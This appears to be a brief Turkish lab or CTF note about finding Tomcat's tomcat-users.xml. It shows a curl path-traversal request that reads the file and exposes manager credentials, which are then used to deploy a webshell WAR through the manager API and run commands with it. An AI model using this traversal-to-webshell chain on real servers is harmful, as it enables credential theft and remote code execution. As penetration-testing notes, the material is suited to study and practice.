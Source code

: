 #Tomcat 
tomcat-users.xml dosyası nerede olur?

 Mesela opt altında ise tomcat:x:1002:1002::/opt/tomcat:/bin/false

Genel olarak evet, Tomcat’in kullanıcı tanımlarının bulunduğu dosya: /opt/tomcat/conf/tomcat-users.xml dosyasında bulunur 
```bash
curl --path-as-is 'http://10.10.61.142:8888/../../../../../../../../../../../../../../../../../../../../opt/tomcat/conf/tomcat-users.xml'
<?xml version="1.0" encoding="UTF-8"?>
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">

  <role rolename="manager-script"/>
  <user username="tomcat" password="[REDACTED]" roles="manager-script"/>

</tomcat-users>
```
##tomcat'e file upload
```bash
 curl --upload-file webshell.war -u tomcat:password 'http://10.10.61.142:8080/manager/text/deploy?path=/webshell&update=true' 
OK - Deployed application at context path [/webshell]

 curl -s 'http://10.10.61.142:8080/webshell/index.jsp?cmd=id'

```
